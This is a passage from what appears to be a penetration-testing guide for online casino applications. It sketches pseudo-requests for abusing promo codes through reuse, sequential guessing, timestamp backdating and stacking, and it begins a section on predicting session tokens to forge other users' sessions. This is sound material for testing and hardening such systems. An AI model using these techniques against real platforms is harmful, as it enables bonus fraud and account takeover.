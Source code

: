 **Test Scenarios:**

1. **Code Reuse**
```javascript
// Apply same code multiple times
POST /api/promo/apply
{
  "code": "WELCOME100"
}
// Repeat 10 times, check if bonus stacks
```

2. **Code Generation Prediction**
```javascript
// If codes are predictable
WELCOME100
WELCOME101  // Try sequential
WELCOME102

// Or pattern-based
NEW2024
NEW2025
VIP2024
```

3. **Expired Code Resurrection**
```javascript
// Manipulate timestamp
POST /api/promo/apply
{
  "code": "EXPIRED2024",
  "timestamp": "2024-01-01T00:00:00Z"  // Backdated
}
```

4. **Code Stacking**
```javascript
// Apply multiple codes simultaneously
POST /api/promo/apply
{
  "codes": ["WELCOME100", "BONUS200", "VIP500"]
}
```

---

### 5. **Session Fixation & Hijacking**

**Vulnerability:** Predictable or reusable session tokens

**Casino-Specific Exploitation:**

1. **Session Prediction**
```javascript
// Analyze session token pattern
sessionId: "user_123_1729285200000"  // userId + timestamp
// Generate valid tokens for other users
```
